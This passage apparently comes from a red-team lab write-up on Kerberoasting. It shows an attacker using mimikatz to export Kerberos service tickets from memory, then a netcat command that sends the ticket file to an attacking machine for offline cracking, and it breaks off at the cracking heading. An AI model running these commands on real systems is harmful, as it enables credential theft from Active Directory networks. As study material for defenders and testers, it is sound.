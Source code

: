 Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Cracking the Ticket
